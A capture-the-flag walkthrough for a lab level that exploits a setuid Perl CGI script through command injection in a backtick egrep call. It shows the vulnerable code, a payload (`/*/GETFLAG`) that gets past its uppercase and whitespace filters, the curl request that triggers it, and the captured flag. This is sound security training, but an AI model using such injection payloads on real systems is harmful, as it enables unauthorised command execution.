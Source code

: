 # Level 12

As `level12`, running `ls` gives us a perl script...

```perl
  $> cat level12.pl 

  #!/usr/bin/env perl
  # localhost:4646
  use CGI qw{param};
  print "Content-type: text/html\n\n";    

  sub t {
    $nn = $_[1];
    $xx = $_[0];
    $xx =~ tr/a-z/A-Z/;
    $xx =~ s/\s.*//;
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    foreach $line (@output) {
        ($f, $s) = split(/:/, $line);     
        if($s =~ $nn) {
            return 1;
        }
    }
    return 0;
  }

  sub n {
    if($_[0] == 1) {
        print("..");
    } else {
        print(".");
    }
  }

  n(t(param("x"), param("y")));
```

> This script is running on `<VM-IP>:4646` and takes two parameters, the second being useless we can omit it.


If we look closer, we can get more details about the other parameter...

```perl
    $xx = $_[0];
    $xx =~ tr/a-z/A-Z/;
    $xx =~ s/\s.*//;
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
```

> Before being evaluated by [`egrep`](https://linux.die.net/man/1/egrep), some regex are applied on it. First, it converts any lowercase character into its uppercase counterpart then, if any whitespace character is found in the output, it removes everything starting this character to the end of the string.

In order to keep our input intact we must only use uppercase letters and avoid whitespaces. If we look for more details about this script with `ls -l` ...

```shell
  $> ls -l
  total 4
  -rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

This file is owned by `flag12` which means we only have to make this script execute `getflag` to pass this level.

```shell
  $> echo "getflag > /tmp/password" > /tmp/GETFLAG
  $> chmod 777 /tmp/GETFLAG
```
> We must add at least execution rights on this file to be able to run it without the need of `sh` or `bash`.

Once that's done, last step is asking the script to execute our file using `curl`.

```shell
  $> curl 'http://<VM-IP>:4646?x=`/*/GETFLAG`'
```

> Quotes surrounding the url are important to avoid the shell to interpret what we are assigning to `x` and the `*` allows us to get to the `GETFLAG` file without specifying the `/tmp/` folder which does not respect the first condition.

Finally, all we have to do is retrieving the password from the file we stored the `getflag` feedback into.

```shell
  $> cat /tmp/password
  Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

So, `g1qKMiRpXf53AWhDaU7FEkczr` is the flag for this level.


